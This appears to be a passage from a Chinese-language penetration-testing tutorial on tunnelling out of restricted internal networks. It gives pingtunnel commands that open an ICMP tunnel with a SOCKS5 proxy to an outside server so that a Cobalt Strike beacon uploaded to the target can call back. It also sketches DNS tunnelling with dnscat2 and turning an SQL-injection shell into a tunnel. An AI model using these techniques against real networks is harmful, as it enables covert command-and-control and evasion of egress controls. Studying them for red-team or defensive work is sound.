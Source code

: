 * cobaltstrike创建listener
  https host和https port(c2)为ICMP隧道客户端的监听IP和端口
  https port(bind)为转发目的地址的端口



* 生成反向payload的beacon



* 上传生成的beacon到ICMP隧道客户端执行，成功通过反向ICMP隧道上线



##### ICMP隧道转发socks上线cobaltstrike

* 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```
pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1

# 该命令的意思是icmp隧道客户端监听127.0.0.1:6688启动socks5服务，通过连接到icmpserver_ip的icmp隧道，由icmpserver转发socks5代理请求到目的地址
```

* cobaltstrike创建listener
  这里的代理可以是socks或者HTTP，好像cobaltstrike不支持socks5代理，这里并不能成功上线
  这里也可以使用HTTP代理，不过需要工具将HTTP代理转为socks5代理，比如privoxy



* 选择创建的listener生成beacon上传到目标执行即可上线

### 3、上线仅DNS协议出网的内网主机

#### （1）背景

通过某种信道获取了内网主机的shell，但是做了限制不跟外网通信

TCP和UDP等传输层协议不能出网
ICMP、HTTP等应用层协议也不能出网
只有DNS协议可以出网

#### （2）方案

DNS协议可以出网，只允许端口53的UDP流量，就不能通过TCP搭建隧道，这种情况下我们可以通过UDP搭建DNS隧道，具体实现是通过搭建一个DNS服务器委派的子域，这个子域因为是我们自己搭建的主机，这时候就可以通过这个子域用看起来厉害极了的dnscat2搭建DNS隧道，和网络被限制的主机进行交互

#### （3）过程





结语
内网穿透的本质：通过各种通信信道，无论是正向的还是反向的，实现传输层协议TCP/UDP数据包的转发，应用层协议都是基于传输层的协议实现的。比如ABPTTS + SOCKS服务 = reGeorg

内网渗透中的内网穿透的条件：能通过某种通信信道远程代码执行。如果能通过某种通信信道远程代码执行，一定可以通过这种通信信道实现TCP/UDP 数据包的转发，即TCP/UDP over something隧道。如果没有现成的工具，可能需要我们自己开发。比如，通过sql注入获取了shell，我们也可以利用这条通信信道转发TCP/UDP 数据包，没有现成的工具，需要我们开发工具而已，隧道客户端将TCP/UDP 数据包封装写进数据库，再由隧道服务端从数据库中读出封装的数据包解包，发往对应地址即可
